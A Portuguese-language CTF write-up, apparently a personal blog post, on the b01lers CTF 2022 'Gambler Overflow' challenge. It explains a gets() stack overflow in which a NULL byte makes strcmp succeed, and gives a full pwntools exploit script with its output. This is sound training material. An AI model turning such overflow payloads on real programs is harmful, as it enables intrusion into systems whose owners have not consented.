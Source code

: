 ```yaml
---
layout: post
title: Gambler Overflow - [b01lers CTF]
date: 2022-04-27 22:26
author: obrerodrigues
comments: true
categories: [CTFs]
tags: [Sem Categoria, stack overflow, exploits]
---
```

Existe um óbvio buffer overflow que permite sobreescrever valores. Mas ao invés de uma simples execução de shellcode ou redirecionamento de código, havia um caminho mais simples de se percorrer.

Caso queira acompanhar, o binário do challenge está [aqui](https://github.com/brerodrigues/exploit_drafts/tree/main/ctfing/b01lers_CTF_2022/gambler_overflow). E o link com as informações do evento [aqui](https://ctftime.org/event/1583).

O programa tem uma simples funcionalidade: pede uma string de 4 caracteres e a compara com uma outra string gerada aleatoriamente. Caso se consiga acertar a string aleatória, ganha-se 10 moedas, caso n, perde-se 10 moedas. No ínicio da execução é avisado de que existe um belo prêmio quando acumularmos 1000 moedas. A primeira coisa que chama a atenção é que, quando inserimos mais de 8 caracteres, é possível sobreescrever o valor da **Correct Word**:

```
Welcome to the casino! A great prize awaits you when you hit 1000 coins ;)
Your current balance: 100
Guess me a string of length 4 with lowercase letters: aaaa
Your guess: aaaa
Correct word: pmbp
Bummer, you lost. -10 coins.
Your current balance: 90
Guess me a string of length 4 with lowercase letters: AAAAAAAABBBBBBBB
Your guess: AAAAAAAABBBBBBBB
Correct word: BBBBBBBB
Bummer, you lost. -10 coins.
Your current balance: 80
Guess me a string of length 4 with lowercase letters: 
```

Essa tese é confirmada ao se analisar o pseudo código gerado pelo Ghidra da função **casino**, responsável por maior parte da lógica do programa. Renomeei as variáveis que achei interessantes e deixei o resto do jeito que o Ghidra quis:

<script src="https://gist.github.com/brerodrigues/dfb4567a3b433ad61586db8da2525e6f.js"></script>

Pode se observar na linha 23 que o programa utiliza a função **gets** para obter o input do usuário, como **gets** não se importa com o tamanho do input, possibilita que seja armazenado em **user_input** um valor maior que os 8 chars previamente reservados, nos deixando sobreescrever os valores armazenados abaixo de **user_input** na stack. E logo abaixo de **user_input** na stack está, convenientemente, **correct_guess** com o valor pseudoaleatório gerado no looping iniciado na linha **36**.

Há um pequeno pulo do gato para ser bem sucedido ao explorar esse overflow. De que adianta poder trocar o valor de **correct_guess** se na hora da comparação os valores vão ser diferentes? Afinal, é necesário inserir um certo número de caracteres antes de se chegar na área de memória onde está **correct_guess** e na hora da comparação os dois valores não vão bater:

```
Guess me a string of length 4 with lowercase letters: AAAAAAAABBBBBBBB
Your guess: AAAAAAAABBBBBBBB
Correct word: BBBBBBBB
Bummer, you lost. -10 coins.
```

Todas as proteções populares estão habilitadas no binário (NX, PIE, Canaries), o que dificulta alguns tipos de ataque. Na linha **60** existe uma verificação que checka se o valor de **balance** é maior que **1000**. Caso seja, chama uma função que imprime a flag na tela. Esse é o grande prêmio anunciado no ínicio do programa. Já que controlamos o valor de **correct_guess**, qual seria a melhor forma de explorar esse comportamento?

Aqui mora o momento que o gato dá seu pequeno pulo: na linha **47** é chamada a função **strcmp** para comparar **user_input** e **correct_guess**. **strcmp** foi feita para comparar duas strings e considera uma string uma sequência de caracteres finalizada por um NULL byte. Consegue entender onde quero chegar?

**gets**, diferente de **strcmp**, não se importa em consumir NULL bytes, ela vai lendo até encontrar um EOF (end of file, pode ser enviado com CTRL+D no terminal) ou um new line (um simples Enter). Então é possível inserir via **gets** uma string que é formada por: 7 caracteres + NULL byte + 7 caracteres. Os primeiros 7 caracteres serão utilizados em **strcmp** como nosso input (ela vai desconsiderar o NULL byte e tudo que vier depois), e o segundo conjunto será o novo valor de **correct_guess**.

No meu exploit criei a string venenosa **overflow = (b'A' * 7) + b'\x00' + (b'A' * 7)** e criei um loop com while que pega o output do programa, verifica se esse output tem o valor **"FLAG** e, caso não tenha, continua enviando a string venenosa. Isso é necessário porque a cada interação que enviamos a string ganhamos 10 moedas e a flag só será impressa na tela quando obtivermos 1000 moedas. Se deseja assistir a todos os momentos que essas moedas são ganhas basta descomentar a linha **#print(output)** dentro do loop.

```python
#!/usr/bin/env python

from pwn import *

get_flag = False
chall_name = 'gambler_overflow'

def run_with_gdb(p):
    gdb.attach(p,'''
    b *main
    b *casino+280''')

def run_exploit(p, debug):
    if debug:
        run_with_gdb(p)
        

    overflow = (b'A' * 7) + b'\x00' + (b'A' * 7)

    while (True):
        output = p.recv(timeout=2).decode()
        #print(output)
        if "FLAG" in output:
            print(output)
        else:
            p.sendline(overflow)
            
    p.close()

if get_flag:
    p = remote('178.62.32.210', '30138')
    run_exploit(p, False)
else:
    process_full_path = './' + chall_name
    p = process(process_full_path)
    run_exploit(p, False)
```

ao rodar, rapidamente chegamos ao resultado que nessa visualização imprimiu meu arquivo flag.txt local criado para fins de teste:

```
[+] Starting local process './gambler_overflow': pid 7322
Your guess: AAAAAAA
Correct word: AAAAAAA
You won (wow)! +10 coins.
FLAG{isso_eh_a_flag_txt}

See you next time!
```
